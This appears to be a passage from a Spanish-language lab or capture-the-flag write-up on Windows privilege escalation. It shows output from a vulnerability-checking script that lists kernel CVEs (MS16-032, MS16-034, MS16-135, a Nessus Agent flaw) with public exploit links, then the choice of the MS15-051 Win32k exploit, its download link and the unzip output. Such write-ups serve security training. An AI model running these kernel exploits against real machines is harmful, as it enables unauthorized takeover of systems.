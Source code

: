 ```bash

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Not Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Not Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.h
             tml
VulnStatus : Not Vulnerable

PS C:\Windows\Temp\Privesc>
```

De acuerdo con los resultados observamos, tenemos las siguientes posibles vulnerabilidades para escalar privilegios:

- Task Scheduler .XML - MS10-092
- ClientCopyImage Win32k - MS15-051
- Secondary Logon Handle - MS16-032

Para este caso, vamos a utilizar ***ClientCopyImage Win32k - MS15-051***; asi que vamos a descargar el exploit correspondiente al [MS15-051](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip); lo descomprimimos

```bash
❯ unzip MS15-051-KB3045171.zip
Archive:  MS15-051-KB3045171.zip
   creating: MS15-051-KB3045171/
  inflating: MS15-051-KB3045171/ms15-051.exe  
  inflating: MS15-051-KB3045171/ms15-051x64.exe  
   creating: MS15-051-KB3045171/Source/
   creating: MS15-051-KB3045171/Source/ms15-051/
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.cpp  
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.vcxproj  
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.vcxproj.filters  
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.vcxproj.user  
  inflating: MS15-051-KB3045171/Source/ms15-051/ntdll.lib  
  inflating: MS15-051-KB3045171/Source/ms15-051/ntdll64.lib  
  inflating: MS15-051-KB3045171/Source/ms15-051/ReadMe.txt  
   creating: MS15-051-KB3045171/Source/ms15-051/Win32/
  inflating: MS15-051-KB3045171/Source/ms15-051/Win32/ms15-051.exe  
   creating: MS15-051-KB3045171/Source/ms15-051/x64/
  inflating: MS15-051-KB3045171/Source/ms15-051/x64/ms15-051x64.exe  
  inflating: MS15-051-KB3045171/Source/ms15-051.sln  
  inflating: MS15-051-KB3045171/Source/ms15-051.suo
```
